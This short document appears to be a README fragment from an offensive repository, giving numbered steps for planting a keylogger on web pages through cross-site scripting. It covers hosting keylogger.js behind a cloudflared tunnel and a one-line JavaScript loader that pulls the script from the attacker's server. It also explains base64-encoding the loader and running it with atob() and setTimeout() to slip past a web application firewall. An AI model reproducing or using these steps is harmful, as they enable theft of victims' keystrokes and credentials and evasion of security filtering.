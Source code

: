 1. Make a cloudflared tunneling in your terminal for public keylogger.js host with ssl certificate or if you have your own ssl web server you can use it

2. Use this JS to call the keylogger script

- var a=document.createElement("script");a.src="https://[your webserver or cloudflare tunnel]/keylogger.js";document.body.appendChild(a);
</br>
4. Make this js to base64 for waf bypass

5. Add this to your xss payload with setTimeout() and atob()

6. atob() is used for base64 js execution and setTimeout() is used for waf bypass execution instead of eval()
